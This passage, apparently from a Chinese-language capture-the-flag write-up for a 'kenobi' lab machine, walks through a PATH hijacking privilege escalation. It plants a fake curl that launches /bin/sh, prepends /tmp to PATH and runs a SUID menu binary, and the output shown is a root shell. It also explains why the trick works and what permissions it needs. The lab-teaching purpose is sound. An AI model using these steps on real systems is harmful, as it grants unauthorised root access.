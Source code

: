 知道指令後  
嘗試修改 curl 讓他變成 執行shell  
但不知道什麼要給予 777 權限  
```!=
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```

> 1. **PATH 劫持攻擊**:
>    - `menu` 程序調用 `curl` 時沒有使用完整路徑(如 `/usr/bin/curl`)
>    - 而是直接調用 `curl`,系統會從 `$PATH` 環境變數中尋找
>    * 正常來說，若你要讓檔案被當做腳本執行，應在第一行放 `#!/bin/sh`。很多 writeup 會寫 `echo /bin/sh > curl`（把 `/bin/sh` 放在檔案內容），實務上有時各環境行為不同。為穩健性請使用 `echo -e '#!/bin/sh\n/bin/sh' > /tmp/curl` 並 `chmod +x /tmp/curl`。
>    
> 2. **修改 PATH**:
>    - `export PATH=/tmp:$PATH` 把 `/tmp` 放在最前面
>    - 系統會先在 `/tmp` 找 `curl`,找到你的假 curl(`/bin/sh`)
>    
> 3. **提權原理**:
>    - `menu` 有 SUID 權限,以 root 身份執行
>    - 當它調用你的假 `curl`(實際是 `/bin/sh`) 時
>    - shell 就以 root 身份啟動了
> 
> 4. **關於 777 權限**:
>    - 實際上 `755` (`chmod +x /tmp/curl`)就夠了(rwxr-xr-x)
>    - 只需要執行權限,`777`(rwxrwxrwx) 是過度授權
>    * 因為系統執行時只需要檢查擁有者(你)的執行權限


再次執行即可提權成功
```!=
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```


## 總結

1. **權限設定的重要性**
   - SSH 私鑰: 必須 `600` 或 `400` (過寬會被拒絕)
   - 攻擊腳本: 只需 `+x` 可執行即可 (`755` 足夠,`777` 過寬)

2. **PATH 劫持攻擊**
   - 標準做法: `echo -e '#!/bin/sh\n/bin/sh' > /tmp/curl && chmod +x /tmp/curl`
   - `echo /bin/sh > curl` 在某些環境可行但不穩健
